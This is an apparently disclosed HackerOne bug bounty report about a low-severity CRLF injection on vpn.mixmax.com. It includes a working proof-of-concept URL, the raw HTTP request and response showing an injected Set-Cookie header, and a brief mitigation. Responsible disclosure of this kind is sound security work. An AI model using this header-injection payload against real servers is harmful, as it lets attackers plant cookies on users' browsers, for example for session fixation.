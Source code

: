# CRLF Injection on https://vpn.mixmax.com

## Report Details
- **Report ID**: 234758
- **URL**: https://hackerone.com/reports/234758
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-31T07:46:41.884Z
- **Disclosed**: 2017-06-06T18:23:38.540Z

## Reporter
- **Username**: sir_morty
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mixmax

## Vulnerability Information
Hey guys,

I found that the site https://vpn.mixmax.com is vulnerable to a CRLF Injection.

By injecting a  Carriage Return and Line Feed character, we are able to make the server issue a set-cookie header.


Proof-of-Concept:
==============

```
https://vpn.mixmax.com/__session_start__/%0aSet-Cookie:malicious_cookie1
````

Request:
-----------
```
GET /__session_start__/%0aSet-Cookie:malicious_cookie1 HTTP/1.1
Host: vpn.mixmax.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: openvpn_sess_e3c6c988cb5e4729bb261cf849082d71=9fbd7613d1b7f33d5717bcc33739caa1
Connection: close
```
Response:
------------
```
HTTP/1.1 302 Found
Date: Wed, 31 May 2017 07:38:50 GMT
Connection: close
Content-Type: text/html; charset=UTF-8
Location: https://vpn.mixmax.com/
Set-Cookie:malicious_cookie1
Server: OpenVPN-AS
Content-Length: 59


<html>
    <body>
    <p>REDIRECT</p>
    </body>
</html>
```
As can be seen in the response, the server will issue a Set-Cookie header with an arbitrary value and that cookie will be set on the client.

To mitigate this issue, the application should strip out any input which contains the %0d%0a URL encoded characters.

## Attachments
No attachments
